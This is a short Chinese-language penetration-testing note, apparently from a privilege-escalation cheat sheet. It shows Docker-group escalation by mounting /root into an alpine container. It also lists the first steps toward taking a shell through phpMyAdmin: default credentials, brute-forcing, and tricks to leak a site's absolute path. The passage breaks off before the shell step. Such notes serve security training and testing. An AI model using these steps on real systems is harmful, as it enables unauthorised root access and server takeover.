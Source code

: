 普通用户在docker组，利用docker服务启动镜像挂载目录

从而来访问root目录、etc目录等敏感文件来进行权限提升。

-复现：创建用户归类目录，添加到docker组

```
useradd -d /home/test -m  test
passwd test
usermod -G docker test
newgrp docker
```

-利用：

```
docker run -v /root:/mnt -it alpine
```

主要的作用是：从Docker上面下载alpine镜像，然后运行;

-v将容器外部的目录/root挂载到容器内部/mnt，使用-it参数进入容器shell

# 第三方应用类

## phpmyadmin

[phpmyadmin拿shell](https://www.cnblogs.com/fzblog/p/13912387.html)

https://www.yisu.com/zixun/497546.html

### 前提

1、通过弱口令或者其他方式进入 phpmyadmin 后台
弱口令
root/root
root/空密码
root/123456
phpMyAdmin爆破工具
信息泄露(配置文件等)
sql注入
等等

2、网站绝对路径,如何获取网站的绝对路径呢？
单引号爆绝对路径
xx.asp?id=1’
错误参数值爆绝对路径
xx.asp?id=-1
搜索引擎搜索绝对路径
site:xxx.com error
site:xxx.com warning
site:xxx.com fatal error
测试文件获取绝对路径
phpinfo.php
test.php
ceshi.php
info.php
php_info.php
等等
